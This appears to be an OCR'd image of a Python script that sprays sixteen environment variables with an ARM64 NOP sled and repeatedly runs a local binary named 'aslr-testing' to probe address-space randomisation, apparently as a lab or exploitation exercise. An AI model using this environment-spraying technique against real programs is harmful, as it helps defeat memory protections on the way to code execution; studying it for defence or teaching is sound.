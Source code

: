 ```python
import subprocess
import traceback

# Start the process
nop = b"\xD5\x1F\x20\x03" # ARM64 NOP transposed
n_nops = int(128000/4)
shellcode_env_var = nop * n_nops

# Define the environment variables you want to set
env_vars = {
'a': shellcode_env_var,
'b': shellcode_env_var,
'c': shellcode_env_var,
'd': shellcode_env_var,
'e': shellcode_env_var,
'f': shellcode_env_var,
'g': shellcode_env_var,
'h': shellcode_env_var,
'i': shellcode_env_var,
'j': shellcode_env_var,
'k': shellcode_env_var,
'l': shellcode_env_var,
'm': shellcode_env_var,
'n': shellcode_env_var,
'o': shellcode_env_var,
'p': shellcode_env_var,
}

cont = 0
while True:
cont += 1

if cont % 10000 == 0:
break

print(cont, end="\r")
# Define the path to your binary
binary_path = './aslr-testing'

try:
process = subprocess.Popen(binary_path, env=env_vars, stdout=subprocess.PIPE, text=True)
output = process.communicate()[0]
if "0xd5" in str(output):
print(str(cont) + " -> " + output)
except Exception as e:
print(e)
print(traceback.format_exc())
pass
```